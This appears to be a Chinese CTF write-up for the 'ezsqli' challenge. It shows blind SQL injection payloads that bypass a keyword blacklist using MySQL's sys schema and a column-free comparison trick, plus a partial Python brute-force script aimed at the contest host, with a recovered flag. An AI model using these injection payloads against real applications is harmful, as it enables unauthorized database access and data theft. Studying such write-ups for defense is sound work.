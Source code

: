 



### ezsqli

黑名单:`union.*select,or,in`

因为盲注太麻烦,所以想用preg回溯次数来绕过,但是没用,最后也只能盲注了

用`0 ^ (1=0)`来盲注,因为过滤了`in`所以用sys系统库来绕过(` https://xz.aliyun.com/t/7169#toc-53 `)

`0 ^ (select substr(hex(group_concat(table_name)),1,1) from (SELECT table_name FROM sys.schema_table_statistics WHERE table_schema=database() GROUP BY table_name)a)`

获取表名之后,还有一个难点就是,列名的获取,但是获取列名会用到`in`字符

因此考虑,无列名注入`union select`那个肯定不行

我们利用`((select 1,GUESS)>(select * from f1ag_1s_h3r3_hhhhh))`来获取flag

当我们利用这个时,我们必须保证某一个相等,才能通过另外一个判断flag

有一点要注意的是

```
mysql> select 'f'='F';
+---------+
| 'f'='F' |
+---------+
|       1 |
+---------+
```

用这种方法是无法区分大小写的,所幸这次比赛的flag都是小写

脚本

```python
import requests
import string

sql="1 ^ ((select substr(hex(group_concat(table_name)),POS,1) from (SELECT table_name FROM sys.schema_table_statistics WHERE table_schema=database() GROUP BY table_name)a)=GUESS)"
#f1ag_1s_h3r3_hhhhh,users233333333333333
result=""
# l=len(result)
# while True:
#     l+=1
#     ended=True
#     for i in string.printable:
#         sql="1 ^ ((select 0,GUESS)>(select * from f1ag_1s_h3r3_hhhhh))"
#         sql=sql.replace("POS",str(l))
#         sql=sql.replace("GUESS",(result+i).encode("hex").upper())
#         res=requests.post("http://c957eb4253fb4275856dc45eb06d11ab05103bcf405348ab.changame.ichunqiu.com/index.php",data={"id":sql})
#         print(sql)
#         if "Hello Nu1L" in res.text:
#             result+=i
#             print(result)
#             ended=False
#             break
#     if ended:
#         break

#FLAG{9AD0BB6D-634F-4AEC-9DD8-B617774CD334}
l=len(result)
while True:
    l+=1
    ended=True
    for j in range(32,128):
```
